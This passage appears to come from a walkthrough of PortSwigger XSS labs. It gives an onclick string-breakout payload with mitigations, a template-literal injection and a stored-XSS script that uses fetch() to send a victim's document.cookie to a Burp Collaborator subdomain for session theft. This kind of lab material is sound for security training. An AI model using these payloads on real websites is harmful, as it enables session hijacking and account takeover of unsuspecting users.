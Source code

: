 `<button onclick="doSomething('' -alert(1)- '')">Click me</button>`

Now, it looks like this:

- The `onclick` event now contains: `doSomething('' -alert(1)- '')`
- The JavaScript string is broken because the first `&apos;` decodes to a single quote (`'`), ending the string.
- `-alert(1)-` is then treated as JavaScript code, which will execute and show an alert when the button is clicked.

### Mitigation
1. **Proper Input Validation**: Validate and sanitize inputs on the server side, ensuring no harmful scripts can be executed.
2. **Output Encoding**: Encode user input appropriately based on the context where it's used. For event handler attributes, this means ensuring that input can't break out of the JavaScript context.
3. **Use Safe Methods**: Avoid inserting user input directly into inline event handlers. Instead, use event listeners added through JavaScript code.

## **18. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped**

This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the `alert` function inside the template string.

1. Submit a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.
2. Observe that the random string has been reflected inside a JavaScript template string.
3. Replace your input with the following payload to execute JavaScript inside the template string: `${alert(1)}`
4. Verify the technique worked by right clicking, selecting "Copy URL", and pasting the URL in the browser. When you load the page it should trigger an alert.

## **19. Exploiting cross-site scripting to steal cookies**
This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
    
    `<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>`
    
    This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.
    